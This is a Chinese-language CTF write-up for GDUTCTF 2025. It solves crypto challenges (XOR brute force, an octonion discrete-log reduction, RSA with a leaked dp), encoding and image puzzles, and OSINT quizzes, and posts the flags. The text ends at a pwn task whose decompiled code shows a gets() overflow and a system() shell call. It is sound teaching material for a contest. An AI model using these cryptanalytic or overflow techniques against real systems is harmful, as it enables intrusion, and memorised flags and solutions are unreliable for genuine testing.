封面图片：《[kawaii 8bit](https://static.wixstatic.com/media/7ac599_18f833b16c5c4115a3acb3abe970c134~mv2.gif)》&emsp;|&emsp;作者：アボガド6 (Avogado6)

---
# GDUTCTF 2025——Writeup


希望下一次可以取得更好的成绩。

---

## Crypto

### **[Easy] easy_encode1**

[与ds的对话记录](https://chat.deepseek.com/share/xpno1bwtepthi2anwb)

下载题目信息和加密文件，可以看到是XOR加密，密文是十六进制字符串。

> ```python
> for i, char in enumerate(plaintext.encode()):
>        encrypted.append(char ^ key[i % key_length])
> ```

**XOR加密的原理是明文和密钥的循环异或**。

已知： 若 encrypted = plaintext ^ key， 则 key = encrypted  ^ plaintext ， plaintext  = encrypted  ^ key。

因此只要找到加密密钥key，就可以从密文反推回明文。

题目给出了flag的格式：flag{...}，那么明文必定是"flag{"开头，"}"结尾。由此可以推导key的前五个字节：cc 53 19 b8 01

假设len(key)=5，解密发现结尾不是"}"。

从5开始增加长度，尝试所有可能的key，并且输出解密后符合flag格式的明文：


**flag{ZIzBw3QjdLty60CYCt}**

我已经理解了这个题目的加密解密方式，可以独立实现异或加密的爆破解密（虽然代码的运行效率可能很低吧，不过至少结果是对的）
> ```python
> def decode(cipher, key, tage):
>        plain = bytes(cipher[i] ^ key[i%len(key)] for i in range(len(cipher)))
>        if plain[:5] == b'flag{' and plain[-1] == ord(tage)  and all(0<= i <= 127 for i in plain):
>            print(f"发现可能的目标： 密钥：{key.hex()} 明文：{plain}")
> 
> def try_all(cipher, key_portion, common_key, max_len):
>        for length in range(len(key_portion)+1, max_len+1):
>            print(f"尝试len(key)={length}的可能：")
>            for last in itertools.product(common_key, repeat = length-len(key_portion)):
>                key_all = key_portion + bytes(last)
>                decode(cipher, key_all, b'}')
> ```


---


### **[Easy] mimaxt**

**题目信息：**

**RKK 为了报复時雨てる把 ta 做成 AI 还做紧题目里里，作为超级黑客的 RKK，ta hack 了時雨てる 的输入法，并获得了一些文本。**

下载两个附件

**232518_rk_svpm.txt**

>
'\xfc\xdf\x0c\x8c%\xc47\xa8\xf2\xe3r1\xf6LDX/\xa48\xfb\xb9\x10Dy\xd8\xd1\xa9\xcf\x80\x99\xc3\x0f\xe4\x0e\xa7Eo\xf0\x1d\x95\xfe}'

看起来像是加密后的flag。

**232507_rkk_td_hk_le.txt**

> oo wode tm na, ve dz bw ni pojp le. mwco, wo ys de ui xnheulpb. xmzd wo yc gcsu ni flag de gzzc le(bu bcko hxkohc). nwrs kdtz ui "xnheulpb lkyu dauf" de qrpb (bclq ksge, mkci uzzimu daxp). rjhz vvjxyige ffhc he yige ksge. rjhz vvjx vejigezi de xnheulpb bnui, xnxp bkqp mwyz ksge. wjdekdxb!

这个文本看起来也很奇怪，并且相当的长。部分内容像是拼音？

这时候注意到题目的信息：**作为超级黑客的 RKK，ta hack 了時雨てる 的输入法**

是某种输入法？但是看起来不像是我常用的全拼。打开输入法查看其他的键盘：


发现一个我从来没用过的键盘，对着文本一个一个输入，得到这样一段信息：

>
哦我的天呐，这都被你破解了。没错，我用的是小鹤双拼。现在我要告诉你flag的构造了（不包括花括号）。内容开头是“小鹤双拼领域大神”的全拼（保留空格，名词首字母大写）。然后追加一个分号和一个空格。然后追加这几个字的小何双拼表示，小写并且没有空格。玩得开心！

意外之喜！根据文本构造：flag{Xiao He Shuang Pin Ling Yu Da Shen; xnheulpblkyudauf}

然而提交却没有通过。再次阅读文本信息，注意到：**名词首字母大写**

构造新的flag：

**flag{Xiaoheshuangpin Lingyu Dashen; xnheulpblkyudauf}**

---


### **[Easy] rickypto**

[与ds的对话记录](https://chat.deepseek.com/share/92619mz1y9c0v8x4u7)

[赛后整理](https://chat.deepseek.com/share/kfi2cmlqbgaitqyxoa)

附件是加密文件和加密参数，是我没有接触过的加密方式。只能借助ds的力量了。

一个八元数幂运算加密系统：

> 加密过程
>
> 1. 生成一个非常大的质数m（64位）
>
>    ```python
>    m = getPrime(64)
>    ```
>
> 2. 将明文（flag和rk碎片）以4字节为单位分割，不足的补0 
>
>    ```python
>    chunk_size = 4
>    flag_chunks = [flag[i:i+chunk_size] for i in range(0, len(flag), chunk_size)]
>    
>    for i in range(len(flag_chunks)):
>        if len(flag_chunks[i]) < chunk_size:
>            flag_chunks[i] = flag_chunks[i] + b'\x00' * (chunk_size - len(flag_chunks[i]))
>    ```
>
> 3. 对于每个4字节块，转换为一个大整数n[^大端序]，放进n_values
>
>    ```python
>    n_values = [bytes_to_long(chunk) for chunk in flag_chunks]
>    ```
>
> 4. 对于n_values的每一个n，随机生成一个八元数p，它的每个分量都是在[1, m-1]的随机整数。放进p_values
>
> 5. 对于每一组（n，p），计算q = p^n^，乘法是八元数乘法（mod m）。放进q_values
>
>    ```python
>    for i, n in enumerate(n_values):
>        p = O(tuple(random.randint(1, m-1) for _ in range(8)))
>        q = p ** n
>                                                                          
>        p_values.append(p.vector())
>        q_values.append(q.vector())
>    ```

**简而言之，整个加密系统将每一个明文块n隐藏为q = p^n^，通过八元数幂运算的复杂性来掩盖明文块n**。

附件中给出了各个加密参数（m，p，q），因此解密的过程就是通过已知的加密参数还原n。

然而，由于八元数本身非交换且非结合，所以八元数的乘法是十分复杂的。对于一般的八元数乘法，从结果复现过程是很困难的。

因此，本题的解密过程应用了一个重要的性质：**八元数范数具有乘性**。

**假设两个八元数a、b，对于a、b的范数N(a)、N(b)，有N(a * b) = N(a) * N(b)**。

在本题中，八元数p^n^ = p * p * p * …… p（一共n个p）。

于是我们有N(p^n^) = [N(p)]^n^ (mod m)。那么，令：h = N(q) mod m，g = N(p) mod m，则：h ≡ g^n^  (mod m)

**于是，问题被简化为相对简单的离散对数问题：解 n = log~g~ h (mod m)**

关于离散对数的求解，可以用函数`sympy.ntheory.residue_ntheory.discrete_log(m, Nq, Np)`实现。

> 解密过程
>
> 1. 对于每一组(p, q)，首先求对应的N(p)和N(q) (mod m)
>
> 2. 解离散对数 n = log~N(p)~ N(q) (mod m)
>
> 3. 将n恢复为明文块[^逆大端序]
>
> 4. 逐个拼接所有的明文块，去除填充的0
>
>    ```python
>    flag_bytes = b''
>    for i in range(len(p_values)):
>        pv = p_values[i]
>        qv = q_values[i]
>                                                                      
>        # 计算范数
>        Np = sum(x * x for x in pv) % m
>        Nq = sum(x * x for x in qv) % m
>                                                                      
>        # 使用 sympy 解离散对数
>        try:
>            n = sympy.ntheory.residue_ntheory.discrete_log(m, Nq, Np)
>            flag_bytes += long_to_bytes(int(n))
>            print(f"Chunk {i}: n = {n}")
>        except Exception as e:
>            print(f"Error at index {i}: {e}")
>            # 如果 sympy 失败，使用暴力搜索
>            found = False
>            for test_n in range(1, 2 ** 24):  # 限制范围避免太慢
>                if pow(Np, test_n, m) == Nq:
>                    flag_bytes += long_to_bytes(test_n)
>                    found = True
>                    print(f"Chunk {i}: found n = {test_n} by brute force")
>                    break
>            if not found:
>                print(f"Failed to find n for index {i}")
>                                                                      
>    print("\nFlag + rk:", flag_bytes)
>    print("Flag:", flag_bytes.split(b'\x00')[0])  # 提取 flag 部分
>    ```

ds给出了解密代码，运行之后得到flag（和rk碎片）


**flag{Wow, you're a master of discrete logarithms!}**

[^大端序]:`bytes_to_long` ： n* = *b~0~* ×256^3^ + *b*~1~×256^2^ + *b*~2~×256^1^ + *b*~3~×256^0^
[^逆大端序]: `long_to_bytes`

---


### **[Easy] 这家伙在说什么呢？**

下载附件发现是一串5位一组的二进制字符串。

> 00101 01011 00000 00110 00011 10100 01101 10010 00111 00000 01101 10010 00111 10100 01110 00011 00100 00011 10100 01000

```python
for i in arr:
    print(int(i, 2), end=" ")
```

全部转换为十进制。

> 5  11  0  6  3  20  13  18  7  0  13  18  7  20  14  3  4  3  20  8

所有数字都在[0, 25]，猜测是字母表映射。按照0 -> a，25 -> z的映射，可以得到flag：

```python
for i in arr:
    print(chr(int(i,2)+97), end="")
```


**flag{dunshanshuodedui}**

---


### **[Normal] leak_dp**

[与ds的聊天记录](https://chat.deepseek.com/share/4oby04a2uc50psvjpn)

[赛后整理](https://chat.deepseek.com/share/lkigoosp5zhjl1kiyo)

下载附件，是一个RSA非对称加密系统：

> 加密过程
>
> 1. 随机生成两个512位大质数p、q，确定RSA模数n = p * q
>
>    ```python
>    p = getPrime(512)
>    q = getPrime(512)
>    n = p * q
>    ```
>
> 2. 确定模数n的欧拉函数phi = (p - 1) * (q - 1)
>
>    ```python
>    phi = (p - 1) * (q - 1)
>    ```
>
> 3. 选择公钥指数e=65537
>
>    ```python
>    e = 65537
>    ```
>
> 4. 确定私钥d = e^-1^ mod phi
>
>    ```python
>    d = gmpy2.invert(e, phi)
>    ```
>
> 5. 生成d~p~参数
>
>    ```python
>    dp = d % (p - 1)
>    ```
>
> 6. 将整个明文解释为大端序得到一个大整数m
>
>    ```python
>    m = bytes_to_long(flag.encode())
>    ```
>
> 7. 对m加密得到密文c = m^d^ mod n
>
>    ```python
>    c = pow(m, e, n)
>    ```

在RSA加密系统中，d~p~ =  d mod (p-1)，通过同余式代换，我们有**e * d~p~ = 1 + k*(p-1)**

而通过加密文件，我们已知：e、n、d~p~、c.

**换言之，我们可以尝试枚举在[1, e-1]中所有的整数k来暴力搜索p，进而一步步得到完整的私钥d**。

> 解密过程
>
> 1. 因为e × d~p~  = 1 + k × (p-1)，所以可以枚举所有的k寻找可能的p
>
>    ```python
>    found = False
>    for k in range(1, e):
>        if (dp * e - 1) % k == 0:
>            p = (dp * e - 1) // k + 1
>            if n % p == 0:
>                q = n // p
>                found = True
>                break
>    ```
>
> 2. 因为n = p * q，确定了p也就同时确定了q
>
> 3. 带入p、q得到phi = (p - 1) * (q - 1)
>
> 4. 得到完整私钥d = e⁻¹ mod phi
>
> 5. 解密得到明文m = c^d^ mod n
>
>    ```python
>    if found:
>        phi = (p - 1) * (q - 1)
>        d = gmpy2.invert(e, phi)
>        m = pow(c, d, n)
>        flag = long_to_bytes(m).decode()
>        print(flag)
>    ```

按照这个逻辑编写代码，运行之后就可以得到flag：



**flag{qeem8obeyi5lcqedkw8w}**

---


## **Misc**

### **[Easy] AAA 真·签到**

关注送flag啦！


**flag{i_HavE-Re@D_Th3_RU1es_c@rEFUlLY_&_hOneSTY_is_Th3_BE5T-p0llcY}**

---


### **Challenge Info** **-** **[Easy] BaseHajimi**

[ds的聊天记录](https://chat.deepseek.com/share/rzuz6rcgcva3r4rmmg)

[赛后整理](https://chat.deepseek.com/share/vn4lpblndrac4yv41h)

> 米豆哈哦哦豆哈豆米豆哦北南南基绿豆南基北豆哈哦米绿绿基哈基豆南绿豆哈绿哦哦南南豆豆米绿哈哈哈哦南绿北哦哈基南南哦绿北哦米绿豆绿北豆哈哦北豆南豆北绿米绿米豆哈南南绿米绿米基豆基哈米米基哈米豆南豆米豆绿哦绿豆米北米基哈哈基豆绿米豆哈哦绿哦南哈米绿绿绿北基豆南基米豆绿北豆基哈豆豆基绿绿基南北南

**Luminoria 说他做了一种新的编码方式叫做 `BaseHajimi`，你能够从上面提供的字符串中找到正确的解码方式并得到 flag 吗？**

Base编码和解码的关键在于使用的字符集。给定有N=2^n^个字符的字符集，就可以进行Base N编码：

> 1. 将原始二进制数据以n个比特为单位分割（不足的比特补0，同时编码结果添加“=”标记）
> 2. 每个单位转换为一个新的N进制整数m（0 <= m < N）
> 3. 以m作为索引，按照字符集映射为字符，形成一个新的字符串

同样的，给定字符集，就可以进行Base N解码：

> 1. 将字符串按照字符集逆映射回索引，形成一个索引串
> 2. 将索引串的每个索引重新转换为二进制数据，形成一个二进制比特串
> 3. 将这一组二进制数据8位一组分割，恢复每个字节的数据

对于本题，可以看见所有出现的字符只有8种：'哈', '南', '北', '基', '绿', '豆', '米', '哦'。

可以猜测，题目所说的**`BaseHajimi`编码**应当是一种**Base8编码**。那么，索引的范围应当是[0,7]。

尽管我们不知道字符集的具体索引，但因为字符集只有8个字符，所有字符集的可能性只有8! = 40320种，可以尝试暴力破解。

按照flag的格式，正确的字符集解码的数据应当以“flag{”开头，“}”结尾。

```python
import itertools

# 原始字符串
encoded_str = "米豆哈哦哦豆哈豆米豆哦北南南基绿豆南基北豆哈哦米绿绿基哈基豆南绿豆哈绿哦哦南南豆豆米绿哈哈哈哦南绿北哦哈基南南哦绿北哦米绿豆绿北豆哈哦北豆南豆北绿米绿米豆哈南南绿米绿米基豆基哈米米基哈米豆南豆米豆绿哦绿豆米北米基哈哈基豆绿米豆哈哦绿哦南哈米绿绿绿北基豆南基米豆绿北豆基哈豆豆基绿绿基南北南"

# 8 个唯一字符
chars = list(set(encoded_str))
print("字符集:", chars)
# 字符集: ['哈', '南', '北', '基', '绿', '豆', '米', '哦']

# 我们将尝试所有可能的映射
from_chars = ['哈', '南', '北', '基', '绿', '豆', '米', '哦']

# 生成所有 0-7 的排列
perms = list(itertools.permutations(range(8)))

# 将字符串分成 8 个字符一组
def decode_with_mapping(mapping_dict, encoded):
    digits = [mapping_dict[c] for c in encoded]
    # 每 8 个八进制数字转 3 字节
    bytes_list = []
    for i in range(0, len(digits), 8):
        group = digits[i:i+8]
        if len(group) < 8:
            # 填充到 8 个
            group += [0] * (8 - len(group))
        # 将 8 个八进制数字转成 24 位二进制
        bin_str = ''.join(f'{d:03b}' for d in group)
        # 取前 24 位，分成 3 字节
        for j in range(0, 24, 8):
            byte_bin = bin_str[j:j+8]
            if len(byte_bin) == 8:
                byte_val = int(byte_bin, 2)
                bytes_list.append(byte_val)
    return bytes_list

# 尝试所有排列
for perm in perms:
    mapping_dict = {from_chars[i]: perm[i] for i in range(8)}
    try:
        decoded_bytes = decode_with_mapping(mapping_dict, encoded_str)
        # 检查是否以 flag{ 开头
        if bytes(decoded_bytes[:5]) == b'flag{':
            print("找到正确映射!")
            print("映射:", mapping_dict)
            flag_text = bytes(decoded_bytes).decode('ascii', errors='ignore')
            print("解码结果:", flag_text)
            break
    except:
        pass
else:
    print("未找到 flag{ 开头的映射")
```


**flag{B4s3H@j1mi-I5_An_4W3sOM3-M0DlFied_b@S3-cIpher!!!}**

---


### **Challenge Info** **-** **[Easy] フラッグモザイク**

下载附件，是一张图片：

 [image.tif](GDUTCTF 2025——Writeup.assets\image.tif) 


可以看到有一部分被遮盖了，并且图片的后缀名也不是常见的图片后缀名。

尽管window照片可以直接打开，但是我想这样的格式或许会有更专业的软件。

必应搜索“tif格式用什么软件打开”：


Ps是收费的，虽然有破解版但是没那么多时间去找资源了。下载一个GIMP看看。这里就不展示下载过程了。

打开之后是这样的：


选择附件的 [image.tif](GDUTCTF 2025——Writeup.assets\image.tif) 打开，惊讶的发现这一个图片有多个图像，而且其中一个图像的名字正是flag！


导入flag后放大仔细观察，可以在右下角发现某些地方似乎和背景不同：


因为第一次用这个软件，不知道怎么可以删除干扰的背景，花了好一会一点一点尝试，最后发现可以这样：


flag就在其中:

**flag{oM07h1rOi!y0u_kn0w_t1fF_sUp9or7s_L@y3rs}**

---


### **题目信息** **-** **[Easy] 知识问答**

[ds的聊天记录](https://chat.deepseek.com/share/2uozimil9jqk20kk55)

这个就没什么技巧了，不会的就问ds，不过ds也不一定是对的，某些怀疑的答案可以同时用搜索引擎寻找答案。


**flag{6dd6996a-a6db-49bf-80af-7103e919bd94}**

---


### **题目信息** **-** **[Easy] 调查问卷**

填问卷送flag啦！

---


## Osint

### **题目信息** **-** **[Normal] Neko Q&A**

[豆包的对话记录](https://www.doubao.com/thread/wbb061525a0332b41)

开启靶机，是一个问答网站。

第一题非常简单，直接可以找到日期。

不过Hatsune Miku提交之后却提示错误。询问豆包发现原来是Racing Miku（赛车未来）~~（话说到底有多少种未来？）~~

**第一题答案：Racing Miku/20250930-20251008**

第二题的高达也非常有象征性，在必应搜索“高达立像”，可以找到相关信息：



可以知道是高达立像的位置**上海金桥购物中心**


这个词条页面可以找到高达立像的首演日期：**2021/05/28**

同样的，搜索“上海金桥购物中心运营企业”可以找到：**三井不動産**

题目强调了企业如果为境外企业请使用 **所属地语言文字** 表示。所以答案是：**20210528/三井不動産株式会社**

第三题我看不出来，豆包给出了答案：圆融时代广场/20090101

但是提交却没有通过。搜索“圆融时代广场开幕日期”，发现其实是：20080928。那么第三题答案就是：**圆融时代广场/20080928**

填写所有答案之后得到flag：



**flag{828ed7f1-6282-499c-a052-8eaa4d877781}**

---


### **题目信息** **-** **[Normal] 广工问答**

也是一个问答网站，四个问题。

第一题直接搜索“首届广东工业大学网络安全技能大赛”




所以第一题答案：**202412070900-202412071830**。

第二题搜索题目关键词“广东工业大学保卫处”：


在保卫处平台搜索关键词“自行车共享服务”：


所以第二题答案：**20240118**。

第三题搜索“广东工业大学书目检索系统”，最前面的广工电子图书馆，但是电子图书馆中我没有找到相关信息。

再往下查看，发现了另一个网页：



于是找到第三题答案：**SULCMIS-OPAC 4.01**

第四题搜索“广东工业大学 全运会”：




所以第四题答案：**9 4**

回答所有问题得到flag：



**flag{2549e4b8-94a2-4526-bffd-273cb08598fe}**

---


## Pwn

### **题目信息** **-** **[Easy] checkin**

[与ds的对话](https://chat.deepseek.com/share/d20pw4bhg6clu0kzb7)

[用到的在线反汇编网站](https://dogbolt.org/)

下载附件，是一个二进制文件。用在线网站反汇编，可以得到代码。这里附上比较关键的部分：

> ```c
> int decrypt_cmd()
> {
>   int result; // eax
>   int i; // [rsp+Ch] [rbp-4h]
> 
>   result = puts("Decryption routine activated");
>   for ( i = 0; i <= 7; ++i )
>   {
>     result = i;
>     cmd[i] ^= key;
>   }
>   return result;
> }
> // 404038: using guessed type char key;
> 
> //----- (00000000004011F2) ----------------------------------------------------
> int get_shell()
> {
>   return system(cmd);
> }
> 
> //----- (000000000040120C) ----------------------------------------------------
> __int64 vulnerable()
> {
>   _BYTE v1[48]; // [rsp+0h] [rbp-30h] BYREF
> 
>   puts("Build your chain:");
>   return gets(v1);
> }
> // 401090: using guessed type __int64 __fastcall gets(_QWORD);
> 
> //----- (000000000040123B) ----------------------------------------------------
> int __fastcall main(int argc, const char **argv, const char **envp)
